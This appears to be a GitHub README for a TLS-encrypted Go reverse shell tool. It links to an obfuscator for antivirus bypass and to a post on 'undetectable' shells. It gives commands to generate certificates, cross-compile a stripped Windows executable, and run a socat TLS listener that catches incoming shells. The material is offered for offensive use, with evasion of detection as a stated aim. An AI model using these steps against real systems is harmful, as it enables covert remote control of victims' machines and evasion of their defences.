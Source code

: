 # go reverse shell secure

A TLS enabled implementation of a clean go reverse shell "rev2go" by sathish09.

Why Go? Check it out over at his blog. 
- https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1
- https://github.com/sathish09/rev2go

AV bypass, consider the following.
- https://github.com/unixpickle/gobfuscate

**Generate server certificate or disable client validation (yahoo! pew pew pew!)**
```
openssl genrsa -out server.key 2048 
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

**Build for target platform**

Windows:
```
env GOOS=windows GOARCH=386 go build -ldflags "-s -w" -o gors.exe gors.go
```
Use build reference table for specific target architecture.
* https://github.com/sathish09/rev2go#build

**Listener**
```
socat openssl-listen:443,reuseaddr,fork,cert=/tmp/gors/server.pem,cafile=/tmp/gors/server.crt,verify=0 -
```

![image](https://user-images.githubusercontent.com/56988989/69015224-f394b480-0989-11ea-8e42-71038b778e06.png)

Enjoy~
